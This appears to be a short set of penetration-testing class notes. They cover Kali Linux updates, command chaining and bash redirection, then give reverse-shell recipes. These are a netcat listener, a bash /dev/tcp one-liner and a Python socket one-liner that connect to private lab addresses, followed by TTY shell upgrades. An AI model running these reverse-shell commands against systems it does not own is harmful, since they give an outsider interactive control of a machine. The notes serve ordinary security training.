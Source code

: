 # Notes for 2019-10-10

## Github
git clone https://github.com/gregdykes/purple
Note: you can also pull the zip file from the website.

## Updating Kali Linux (as root)
To install a single package...
apt install <PACKAGE-NAME>

Updating Kali...
apt update
apt list --upgradable
apt upgrade
apt dist-upgrade <-- For installing all kept packages
apt autoremove

## Chaining Commands
By using a ; after a command you can string them along like so...

ping -c 3 127.0.0.1; ifconfig; uname -a

This will execute each command one after...

## Bash io redirection
https://www.tldp.org/LDP/abs/html/io-redirection.html
>
>>
<
|
0 = stdin
1 = stdout
2 = stderr


## Reverse shells
Start a listener using netcat:
nc -nlvp 4444

Here is a bash reverse shell opening 192.168.56.101 with port 4444
bash -i >& /dev/tcp/192.168.56.101/4444 0>&1

Here is a python opening 192.168.56.102 with port 4444
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


## TTY Shells
In order to get a fully functional shell, try one of these...
/bin/sh -i
/bin/bash -i
python -c 'import pty; pty.spawn("/bin/sh")'





